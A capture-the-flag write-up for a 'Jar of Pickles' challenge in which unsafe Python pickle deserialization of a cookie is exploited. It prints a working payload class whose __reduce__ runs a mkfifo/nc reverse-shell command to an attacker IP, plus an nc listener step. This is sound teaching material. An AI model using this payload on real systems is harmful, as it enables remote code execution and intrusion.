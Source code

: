 # Name: Jar of Pickles

## Vulnerability

Unsafe usafe of Python3 `pickle` module.

## Exploit

Note! The exploit involves opening a reverse shell, you may need to read [this article](https://securiumsolutions.com/blog/reverse-shell-using-tcp/) first.
You'll need to change with you own IP and port to connect to it.

Click on the picture, it will take you to `/jar`.
Notice the `pickles` cookie.

Use `nc -nvlk 1234` in another terminal to open a connection to your machine first.

Then run this program that prints the encoded pickled object of this class that spawns a shell (change the IP to yours).

```python
import base64
import os
import pickle
import requests

YOUR_IP = "127.0.0.1"

class RCE:
    def __reduce__(self):
        cmd = "rm -rf /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc %s 1234 > /tmp/f" % YOUR_IP

        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value.
Make the request again.
You should have a shell now in the `nc` terminal; perform a `cat` on the flag file.

Exploit in `../sol/solution.sh`.
